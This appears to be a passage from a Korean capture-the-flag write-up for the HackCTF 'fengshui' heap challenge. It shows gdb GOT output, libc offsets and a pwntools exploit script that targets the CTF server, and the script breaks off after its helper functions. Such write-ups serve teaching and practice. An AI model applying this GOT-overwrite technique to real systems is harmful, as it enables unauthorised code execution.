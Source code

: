 **system\_offset=0x3ada0** <br>
**free\_offset=0x71470**

<pre>
gdb-peda$ got

/home/sjy0175/Desktop/HackCTF/Pwnable/29.vndtnwlfltjf/fengshui:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
0804affc R_386_GLOB_DAT    __gmon_start__
0804b060 R_386_COPY        stdin@@GLIBC_2.0
0804b064 R_386_COPY        stdout@@GLIBC_2.0
0804b00c R_386_JUMP_SLOT   printf@GLIBC_2.0
0804b010 R_386_JUMP_SLOT   free@GLIBC_2.0
0804b014 R_386_JUMP_SLOT   fgets@GLIBC_2.0
0804b018 R_386_JUMP_SLOT   alarm@GLIBC_2.0
0804b01c R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
0804b020 R_386_JUMP_SLOT   malloc@GLIBC_2.0
0804b024 R_386_JUMP_SLOT   puts@GLIBC_2.0
0804b028 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804b02c R_386_JUMP_SLOT   strchr@GLIBC_2.0
0804b030 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804b034 R_386_JUMP_SLOT   setvbuf@GLIBC_2.0
0804b038 R_386_JUMP_SLOT   memset@GLIBC_2.0
0804b03c R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7

</pre>

**free\_got=0x804b010**

다음과 같은 익스코드로 쉘을 따낼 수 있었다.

<pre>
from pwn import*

#p=process('./fengshui')
p=remote('ctf.j0n9hyun.xyz',3028)

system_offset=0x3ada0
free_offset=0x71470
free_got=0x804b010

def add_location(desc,name,text):
        p.recvuntil('Choice: ')
        p.sendline('0')
        p.recvuntil('Size of description: ')
        p.sendline(str(desc))
        p.recvuntil('Name: ')
        p.sendline(str(name))
        p.recvuntil('Text length: ')
        p.sendline(str(len(text)))
        p.recvuntil('Text: ')
        p.sendline(str(text))

def delete_location(index):
        p.recvuntil('Choice: ')
        p.sendline('1')
        p.recvuntil('Index: ')
        p.sendline(str(index))
